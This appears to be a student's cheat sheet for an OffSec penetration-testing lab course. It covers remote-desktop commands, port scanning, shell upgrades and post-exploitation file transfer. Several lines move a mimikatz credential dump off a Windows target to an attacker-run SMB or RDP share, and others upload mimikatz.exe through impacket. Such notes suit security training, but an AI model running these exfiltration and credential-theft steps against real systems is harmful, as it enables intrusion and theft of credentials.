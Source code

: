 Keep the script for future references 

1. Get new ip address
```
kali - dhclient

windows - ipconfig /renew
```

2. To kill busy listening port 
```
sudo lsof -i :<Port number> #list pid 
ps aux | grep smb

kill -9 <pid>
```

3. Remote connection 
```

xfreerdp /cert-ignore /compression /auto-reconnect /u:USERNAME /p:PASSWORD /v:IP_ADDRESS

sudo rdesktop -u USERNAME -p PASSWORD -g 90% -r disk:local="/home/kali/Desktop/" IP-ADDRESS

rdesktop -u USERNAME -p PASSWORD -a 16 -P -z -b -g 1280x860 IP_ADDRESS

 xfreerdp /u:USERNAME /p:PASSWORD /cert:ignore /v:IP_ADDRESS /w:2600 /h:1400

xfreerdp +nego +sec-rdp +sec-tls +sec-nla /d: /u: /p: /v:IP_ADDRESS /u:USERNAME /p:PASSWORD /size:1180x708

rdesktop -z -P -x m -u USERNAME -p PASSWORD
```

4. Delete full directory. 
```
rm -r .wine/
```

5. Dependencies packages error solution
```
https://linuxsimply.com/linux-basics/package-management/dependencies/the-following-packages-have-unmet-dependencies/
```

6. File transfer cheatsheet
```
https://ironhackers.es/en/cheatsheet/transferir-archivos-post-explotacion-cheatsheet/
```

7. Hacktricks if running out of ideas. 
```
https://book.hacktricks.xyz/
```

8. Rustscan instead of nmap
```
1. Scan open ports. 
rustscan -a 192.168.187.122 --ulimit 5000

2. Nano and paste open ports - open-ports.txt

3. List down open ports in one line with comma. 
cat open-ports.txt | cut -f1 -d '/' | tr '\n' ','

4. Or straight can scan with nmap
nmap -p$(cat open-ports.txt | cut -f1 -d '/' | tr '\n' ',') -T4 -A $ip 

5. Decrease mtu rate if needed 
ifconfig tun0 mtu 1250

```

9. Allocating IP. 
```
export ip=10.10.10.10
echo $ip
```

10. Alternative for gobuster 
```
feroxbuster -u http://$ip/
```

11. Upgrade shells to full tty
```
https://0xffsec.com/handbook/shells/full-tty/

SHELL=/bin/bash script -q /dev/null

python -c 'import pty; pty.spawn("/bin/bash")'

stty raw -echo; fg

For windows:
set PATH=%SystemRoot%\system32;%SystemRoot%;
```

12. Machine not working
```
Can you try to do the following to resolve your issue

disconnect from your VPN and run the command "sudo killall -w openvpn"
logout from your Portal and clear your browsers data and cache
please also run the commands below

sudo bash -c " echo nameserver 8.8.8.8 > /etc/resolv.conf"
sudo bash -c " echo nameserver 8.8.4.4 >> /etc/resolv.conf"
sudo chattr +i /etc/resolv.conf

download a new VPN pack (make sure that you are on your Course Page and not on the Main Page) and make sure to delete all the old VPN's

Once done, please try to reconnect to your VPN and see how it goes.
```


1) SMB: On Kali:

`impacket-smbserver test . -smb2support  -username kourosh -password kourosh`

On Windows:

`net use m: \\192.168.45.241\test /user:kourosh kourosh` 
`copy mimikatz.log m:\`

2) RDP mounting shared folder:

- Using xfreerdp:

On Kali:

`xfreerdp /cert-ignore /compression /auto-reconnect /u: offsec /p:lab /v:192.168.212.250 /w:1600 /h:800 /drive:test,/home/kali/Documents/pen- 200`

On windows:

`copy mimikatz.log \\tsclient\test\mimikatz.log`


- Using rdesktop:

On Kali:

`rdesktop -z -P -x m -u offsec -p lab 192.168.212.250 -r disk:test=/home/kali/Documents/pen-200`

On Windows:

`copy mimikatz.log \\tsclient\test\mimikatz.log`

3) Impacket tools: psexec and wmiexec are shipped with built in feature for file transfer. **Note**: By default whether you upload (lput) or download (lget) a file, it'll be writte in `C:\Windows` path. Uploading mimikatz.exe to the target machine:

`C:\Windows\system32> lput mimikatz.exe [*] Uploading mimikatz.exe to ADMIN$\/ C:\Windows\system32> cd C:\windows C:\Windows> dir /b mimikatz.exe mimikatz.exe`

Downloading mimikatz.log:

`C:\Windows> lget mimikatz.log [*] Downloading ADMIN$\mimikatz.log`


### Remove empty lines form a file using cut. 
```bash
sed -z '$ s/\n$//'
```

